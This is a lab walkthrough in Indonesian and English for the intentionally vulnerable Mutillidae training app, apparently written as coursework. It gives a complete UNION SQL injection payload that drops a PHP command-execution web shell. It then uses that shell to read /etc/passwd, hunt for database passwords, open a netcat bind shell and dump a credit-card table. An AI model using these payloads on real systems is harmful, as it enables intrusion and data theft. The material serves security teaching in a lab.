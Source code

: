 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan 
   ```bash
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/union.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_9/result_union_2.png "Home page")

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://10.0.1.100/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox:
	  ```whoami; pwd```
	- Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/whoami.png "Home page")
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox:
	 ```w```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/w.png "Home page")
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox:
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_passwd.png "Home page")
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox:
   ```bash
   netstat -nao | grep "0.0.0.0:"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/netstat.png "Home page")

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox:
   ```bash
   find * -name "*.php" | xargs grep -i "password" | grep "="
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/find.png "Home page")
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox:
   ```bash
   cat config.inc | grep -v "<?php"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_config.png "Home page")

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox:
   ```bash
   which nc; netstat -nao | grep 4444 | wc -l
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/which_nc.png "Home page")
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
   ```bash
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/mkfifo.png "Home page")
3. On BackTrack, Start up a "another" terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Buka koneksi ke mutillidae menggunakan netcat
   - Ketikkan perintah : `nc 10.0.1.100 4444`
   - Ketikkan perintah : `hostname` untuk melihat hostname
   - Ketikkan perintah : `whoami` untuk melihat user yang digunakan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_nc.png "Home page")
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
   ```bash
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_data.png "Home page")

## Note
- Agar file **execute_command.php** dapat dibuat pada metasploit, pastikan anda sudah menonaktifkan apparmor
- Konfigurasi untuk menonaktifkan AppArmor ada [disini](https://github.com/luqmanahmads/laporan-pksj/blob/master/Laporan_Tugas_Final/konfigurasi_apparmor.md)